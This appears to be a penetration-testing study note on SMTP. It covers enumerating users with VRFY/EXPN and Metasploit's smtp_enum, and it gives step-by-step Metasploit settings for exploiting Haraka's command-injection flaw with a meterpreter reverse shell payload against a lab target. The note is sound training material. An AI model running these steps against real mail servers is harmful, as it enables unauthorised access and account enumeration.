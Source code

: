 # ** #SMTP (<mark style="background: #FFB86CA6;">Simple Mail Transfer Protocol</mark>)**  [ Port: 25 or 465 or 587]

---
### **SMTP: is a communication protocol that is used for the transmission of email.**
 

- SMTP uses TCP port 25 by default. It is can also be configured to run on TCP port
465 and 587.
 

+ We can utilize auxiliary modules to enumerate the version of SMTP as well as
user accounts on the target system.



`search type:auxiliary name:smtp`
- Search AUX modules.


### **To connect to a <mark style="background: #FFB86CA6;">SMTP</mark> server we use netcat: `nc <ip> <port>`** 
- The SMTP service has two internal commands that allow the enumeration
of users:
- <mark style="background: #FFB86CA6;">VRFY:</mark> ***(confirming the names of valid users)*** 
- <mark style="background: #FFB86CA6;">EXPN:</mark> ***(which reveals the actual address of users aliases and lists of e-mail (mailing lists))***


## **Haraka SMTP server:**

>is an Open-Source high performance SMTP server developed in Node.js.
The Haraka SMTP server comes with a plugin for processing attachments.
Haraka versions prior to V2.8.9 are vulnerable to command injection.

##### **MSF Module:**

	exploit/linux/smtp/haraka 

Then

	set rhost <target_ip>


Then 

	set SRVPORT 9898

Then 

	set email_to root@attackdefense.test

Then set a staged payload:

	set payload linux/x64/meterpreter_reverse_http

set LHOST

	set LHOST <attacking_IP>



# **MSF Modules:**
This module is very useful for collecting existing usernames on the target:

`auxiliary/scanner/smtp/smtp_enum`

- `set UNIXONLY false`  If you are not working on a Linux target....
- Also select a proper `USER_FILE` based on the target.



